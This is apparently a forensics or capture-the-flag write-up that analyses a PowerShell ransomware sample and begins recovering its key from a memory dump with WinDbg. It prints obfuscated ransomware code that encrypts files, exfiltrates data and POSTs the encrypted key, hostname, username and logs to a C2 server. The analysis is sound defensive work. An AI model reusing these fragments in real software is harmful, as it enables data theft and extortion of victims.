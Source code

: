 ```ps1 h!
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host
```

So what do we need to focus in this script? If you read it through you will know that it encrypt the data with AES CBC 256 and a custom Base64 named R64 (it reverses the string, base64 encode, get rid of the padding then replace E with _ and C with -)

Okay so we knot how it encrypted, where the key? The answer is quite simple if you take a look here in these lines

```ps1 h!
function SendResults {
$cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
$2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
$RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
$XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```

```ps1 h!
Invoke-AESEncryption -Key $WiETm -Path $i
---------------------------------------------------------
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; 
$Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
```

the $cvf is the place holder for the encrypted key, it encrypted the key with $**Uz19o** and Uz19o is the date,time + username + hostname.
There are 2 ways to get the cvf back, I will tell you both way

1. gather back all the infomation from the dump and pcap
2. Reverse the data that it sent to through the http POST method

Lets start with the first one, how to get back the infomations? 

First open the dmp file in windbg and use !peb

```h!
0:000> !peb
PEB at 0000000000c11000
    InheritedAddressSpace:    No
    ReadImageFileExecOptions: No
    BeingDebugged:            No
    ImageBaseAddress:         0000000000aa0000
    NtGlobalFlag:             0
    NtGlobalFlag2:            0
    Ldr                       00007ffae4ffa4c0
    Ldr.Initialized:          Yes
    Ldr.InInitializationOrderModuleList: 0000000000f32680 . 000000001bb8fbf0
    Ldr.InLoadOrderModuleList:           0000000000f327f0 . 000000001bb8fbd0
    Ldr.InMemoryOrderModuleList:         0000000000f32800 . 000000001bb8fbe0
            Base TimeStamp                     Module
          aa0000 66eb07ef Sep 19 00:03:43 2024 C:\Users\IEUser\Desktop\update.exe
```